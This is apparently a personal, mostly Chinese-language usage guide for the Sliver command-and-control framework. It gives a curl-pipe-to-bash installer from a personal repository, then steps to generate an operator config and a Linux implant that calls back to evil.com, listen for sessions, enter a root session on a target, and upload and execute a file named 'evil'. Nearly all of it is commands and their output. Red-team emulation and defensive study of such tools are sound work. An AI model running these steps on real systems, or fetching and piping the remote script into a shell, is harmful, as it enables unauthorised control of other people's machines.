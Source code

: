 Adversary Emulation Framework.

## 1. Install

安装

```
┌──(sec@debian)-[~]
└─$ curl -fsSL https://github.com/jadensalas469466/script/raw/main/sliver_install.sh | bash
```

## 2. Usage

### 2.1. Server

> 用于与目标建立稳定连接

开机自启

```
┌──(sec@debian)-[~]
└─$ sudo systemctl enable --now sliver.service
```

进入 Server

```
┌──(sec@debian)-[~]
└─$ sliver-server
```

退出 Server

```
[server] sliver > exit
```

### 2.1.1. 连接 Client

开启 `31337` 端口

```
┌──(sec@debian)-[~]
└─$ sudo ufw allow 31337
```

生成 Client 配置

```
[server] sliver > new-operator -n sec -l evil.com -p 31337
```

开启多端控制

```
[server] sliver > multiplayer
```

查看已加入的控制器

```
[server] sliver > operators
```

### 2.1.2. 连接 Implant

开启 `65135` 端口

```
┌──(sec@debian)-[~]
└─$ sudo ufw allow 65135
```

生成 Implant

```
[server] sliver > generate -o linux -m evil.com:65135
```

监听 Implant

```
[server] sliver > mtls -l 65135
```

查看监听任务

```
[server] sliver > jobs
```

等待目标执行 Implant 后查看会话

```
[server] sliver > sessions

 ID         Transport   Remote Address        Hostname   Username   Operating System   Health
========== =========== ===================== ========== ========== ================== =========
 685a7144   mtls        example.com:32804   morpheus   root       linux/amd64        [ALIVE]
```

进入会话

```
[server] sliver > use  685a7144
```

### 2.2. Client

> 用于在 Client 控制与 Server 建立连接的 Implant

导入 Client 配置文件

```
┌──(sec@debian)-[~]
└─$ sliver-client import ~/.sliver-client/configs/sec_evil.com.cfg
```

运行 Client

```
┌──(sec@debian)-[~]
└─$ sliver-client
```

查看已加入的控制器

```
[server] sliver > operators
```

退出 Client

```
sliver > exit
```

### 2.3. Implant

断开会话

```
[server] sliver (implant) > close
```

上传本地文件到目标

```
[server] sliver (implant) > upload ./evil ./example
```

添加执行权限

```
[server] sliver (implant) > chmod ./example 755
```

执行程序

```
[server] sliver (implant) > execute ./example
```

---

References

- [sliver](https://github.com/BishopFox/sliver)

